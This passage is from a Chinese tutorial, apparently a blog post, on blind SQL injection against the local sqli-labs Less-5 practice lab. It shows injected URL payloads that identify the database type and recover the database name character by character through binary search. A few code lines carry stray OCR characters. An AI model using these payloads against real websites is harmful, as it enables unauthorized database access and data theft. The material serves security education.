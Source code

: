 
![](https://img-blog.csdnimg.cn/20200102111000833.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



这个例子中出错页面已经告诉了我们此数据库是MySQL，那么当我们不知道是啥数据库的时候，如何分辨是哪个数据库呢？



虽然绝大多数数据库的大部分SQL语句都类似，但是每个数据库还是有自己特殊的表的。通过表我们可以分辨是哪些数据库。



MySQL数据库的特有的表是 **information\_schema.tables**  , access数据库特有的表是 **msysobjects** 、SQLServer 数据库特有的表是 **sysobjects** ,oracle数据库特有的表是 **dual**。那么，我们就可以用如下的语句判断数据库。哪个页面正常显示，就属于哪个数据库



```
//判断是否是 Mysql数据库      
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables) #       
//判断是否是 access数据库      
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects) #       
//判断是否是 Sqlserver数据库      
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects) #       1
//判断是否是Oracle数据库      1
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(*) from dual)>0 #
```




对于MySQL数据库，information\_schema 数据库中的表都是只读的，不能进行更新、删除和插入等操作，也不能加载触发器，因为它们实际只是一个视图，不是基本表，没有关联的文件。



**information\_schema.tables** 存储了数据表的元数据信息，下面对常用的字段进行介绍：



*   table\_schema: 记录**数据库名**；

*   table\_name: 记录**数据表名**；

*   table\_rows: 关于表的粗略行估计；

*   data\_length : 记录**表的大小**（单位字节）；



2：判断当前数据库名(以下方法不适用于access和SQL Server数据库)



```
1：判断当前数据库的长度，利用二分法      
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>5   //正常显示      
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>10   //不显示任何数据      
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>7   //正常显示      
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>8   //不显示任何数据       
大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为 8       
2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断      1
//判断数据库的第一个字符      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))>100       1
//判断数据库的第二个字符      1
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))>100       1
...........      1
由此可以判断出当前数据库为 security
```
